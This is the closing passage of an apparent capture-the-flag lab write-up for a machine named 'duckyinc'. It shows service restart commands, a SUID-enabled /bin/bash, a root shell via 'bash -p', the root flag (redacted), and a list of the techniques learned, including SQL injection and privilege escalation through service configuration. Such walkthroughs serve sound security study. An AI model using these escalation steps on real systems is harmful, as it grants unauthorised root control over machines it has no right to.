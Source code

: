 **Then restart the service:**
```
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl enable duckyinc.service
server-admin@duckyinc:~$ sudo /bin/systemctl start duckyinc.service
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service

server-admin@duckyinc:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

**Nice! We now can become `root` via `/bin/bash -p` to use the SUID privilege:**
```
server-admin@duckyinc:~$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
duckyinc
uid=1001(server-admin) gid=1001(server-admin) euid=0(root) egid=0(root) groups=0(root),33(www-data),1001(server-admin)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:90:cb:86:fd:07 brd ff:ff:ff:ff:ff:ff
    inet 10.10.151.170/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2903sec preferred_lft 2903sec
    inet6 fe80::90:cbff:fe86:fd07/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**`flag3.txt`:**
```
bash-4.4# cat /root/flag3.txt
thm{Redacted}
```

# Conclusion

What we've learned:

1. Enumerating Web Application's Hidden Directories and Files
2. Information Disclosures in Web Application's Back-end Details
3. Exploiting UNION-Based SQL Injection
4. Cracking Hashes
5. Vertical Privilege Escalation via Editing Service Configuration